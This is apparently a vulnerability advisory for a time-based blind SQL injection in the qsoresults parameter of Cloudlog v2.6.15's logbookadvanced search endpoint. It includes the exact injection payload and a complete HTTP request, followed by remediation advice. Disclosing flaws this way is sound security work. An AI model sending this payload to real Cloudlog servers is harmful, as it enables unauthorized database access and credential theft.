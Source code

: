 # SQL injection in Cloudlog v2.6.15 - qsoresults parameter


A time-based blind SQL Injection vulnerability has been identified in the **Cloudlog v2.6.15 platform**, at the endpoint /index.php/logbookadvanced/search, through the qsoresults parameter . This vulnerability allows a malicious user to execute arbitrary SQL commands on the MySQL database, compromising the security of the system.

# Vulnerable endpoint:

URL: /index.php/logbookadvanced/search

Method: POST

Vulnerable parameter: qsoresults


# Vulnerability Details:

The vulnerability exploits an SQL injection to force the execution of an SQL function (such as BENCHMARK or EXTRACTVALUE), deliberately slowing down the system to confirm the existence of the vulnerability.


Payload:
**qsoresults=250 PROCEDURE ANALYSE(EXTRACTVALUE(1073,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x65636f70))))),1)**


 
**Malicious HTTP Request:**

POST /index.php/logbookadvanced/search HTTP/1.1

Host: localhost

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

Content-Length: 104


qsoresults=250 PROCEDURE ANALYSE(EXTRACTVALUE(1073,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x65636f70))))),1)



# Impact:
An attacker can exploit this vulnerability to:
Execute arbitrary SQL queries, potentially extracting sensitive data.
Compromise database integrity.
Gain unauthorized access to critical data such as user credentials.

# Recommended Solution:
Input Validation: Implement strict input sanitization for the qsoresults parameter .
Parameterized Queries: Use parameterized queries to prevent user injection of SQL commands.
Permission Restriction: Restrict the privileges of the database user used by the application.
Web Application Firewall (WAF): Implement a WAF to monitor and block SQL injection attempts.




